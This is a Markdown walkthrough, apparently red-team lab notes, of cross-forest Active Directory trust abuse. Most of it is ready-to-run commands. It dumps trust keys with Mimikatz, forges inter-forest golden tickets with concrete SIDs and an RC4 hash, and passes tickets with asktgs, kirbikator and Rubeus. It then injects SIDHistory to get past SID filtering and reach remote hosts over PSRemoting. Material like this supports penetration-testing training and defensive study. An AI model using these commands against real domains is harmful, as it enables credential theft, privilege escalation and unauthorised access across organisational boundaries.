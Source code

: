 # Cross Forest Attack - Trust Key

- [Cross Forest Attack - Trust Key](#cross-forest-attack---trust-key)
  - [Trust Key](#trust-key)
  - [Access all resources - SID History](#access-all-resources---sid-history)

---

## Trust Key

By abusing the trust flow between forests in a two way trust, it is possible to access resources across the forest boundary.

We can use the **Trust Key**, the same way as in Domain trusts but we can **access only those resources which are explicitly shared with our current forest**.

Let's try to access a file share '`eushare`' on `euvendor-dc` of `euvendor.local` forest from `eu.local` which is explicitly shared with Domain Admins of `eu.local`. 

Note:
Trust Flow:
`us.techcorp.local` <--> `eu.local` <--> `euvendor.local` 

<br/>

![picture 7](images/e1b96eb7627e2e442f2bae11051093c20dc76a69fc808aeefe5814b05ad8e021.png)  

![picture 8](images/90bd2122e80172c54c18fa7f3c9b8d30264a198dac625bff7698ff0387b3d7be.png)  

<br/>

Like intra forest scenario, we require the trust key for the inter-forest trust.

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```

or

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\euvendor$"'
```

Tools like `SafetyKatz` / `SharpKatz` / `BetterSafetyKatz` work as well!

<br/>

An inter-forest TGT can be forged:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\AD\Tools\kekeo_old\sharedwitheu.kirbi"'
```

<br/>

Get a TGS for a service (`CIFS` below) in the target forest by using the forged trust ticket. Tickets for other services like the following can be created as well.

- `HOST` and `RPCSS` for `WMI`
- `HOST` and `HTTP` for PowerShell Remoting and WinRM 

```
.\asktgs.exe C:\AD\Tools\kekeo_old\sharedwitheu.kirbi CIFS/euvendor-dc.euvendor.local
```

Use the TGS to access the target resource which must be explicitly shared:

```
.\kirbikator.exe lsa CIFS.euvendor-dc.euvendor.local.kirbi
```

```
ls \\euvendor-dc.euvendor.local\eushare\
```

<br/>

Alternatively, we can use **Rubeus**:

```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

<br/>

## Access all resources - SID History

This is fine but why can't we access all resources just like Intra forest?

**SID Filtering** is the answer. It filters high privilege SIDs from the `SIDHistory` of a TGT crossing forest boundary. This means we cannot just go ahead and access resources in the trusting forest as an Enterprise Admin. But there is a catch:

- `S-1-5-21-<Domain>-RR` >= 1000
- Identifiers for end user-created domain identities and domain groups
- Not filtered at domain and external trust boundaries. Can be filtered at member, quarantined, and cross-forest boundaries.

See also:<br/>
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280

This means, if we have an **external trust** (or a **forest trust with SID history enabled** - `/enablesidhistory:yes`), we can inject a `SIDHistory` for `RID > 1000` to access resources accessible to that identity or group in the target trusting forest.

<br/>

We had DA access to `eu.local`. Let's enumerate trusts from a PSRemoting session on `eu-dc`:

```
Get-ADTrust -Filter *
```

`SIDFilteringForestAware` is set to True, it means `SIDHistory` is enabled across the forest trust. Remember that still only `RID > 1000` SIDs will be allowed across the trust boundary.

```
Get-ADGroup -Identity EUAdmins -Server euvendor.local
```

<br/>

From `eu-dc`, create a TGT with `SIDHistory` of EUAdmins group:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /ticket:C:\Users\Public\euvendornet.kirbi"'
```

<br/>

Then request a TGS:

```
.\asktgs.exe C:\Users\Public\euvendornet.kirbi HTTP/euvendor-net.euvendor.local
```

<br/>

Inject that into current session:

```
.\kirbikator.exe lsa HTTP.euvendor-net.euvendor.local.kirbi
```

or

```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\euvendornet.kirbi /service:HTTP/euvendor-net.euvendor.local /ptt
```

<br/>

Access the `euvendor-net` machine using PSRemoting:

```
Invoke-Command -ScriptBlock{whoami} -ComputerName euvendor-net.euvendor.local -Authentication NegotiateWithImplicitCredential
```

<br/>

